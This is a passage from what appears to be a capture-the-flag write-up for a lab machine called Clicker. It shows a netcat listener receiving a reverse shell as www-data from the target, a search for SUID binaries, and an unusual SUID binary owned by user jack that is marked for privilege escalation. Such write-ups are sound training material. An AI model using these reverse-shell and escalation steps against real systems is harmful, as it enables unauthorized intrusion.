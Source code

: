 - As a result, we established a connection back to our machine using the `netcat`.

```shell                                                             
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.11.232] 33126
bash: cannot set terminal process group (1198): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ id; hostname
id; hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
clicker
bash-5.1$ 
```

We received a shell prompt with the user `www-data`, which is a low-privileged user on the server.

# PRIVILEGE ESCALATION TO JACK

We found a way to escalate our privileges and gain higher-level access to the system, as the user `Jack`. Here's how we achieved this.

First, we examined the system to discover binaries with the `SUID` (Set User ID) bit set. These binaries allow a user to run them with the permissions of the binary's owner. This can potentially lead to privilege escalation.

```shell
bash-5.1$ find / -type f -perm -4000 2>/dev/null
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/bash
/usr/bin/passwd
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
/usr/sbin/mount.nfs
/opt/manage/execute_query
```

Among the list of `SUID` binaries, we noticed an unusual one located at `/opt/manage/execute_query`. It had both `SUID` and `SGID` (Set Group ID) permissions. This binary allowed us to execute it with the privileges of its owner, `Jack`.

```shell
bash-5.1$ ls -la /opt/manage/execute_query
-rwsrwsr-x 1 jack jack 16368 Feb 26  2023 /opt/manage/execute_query
```
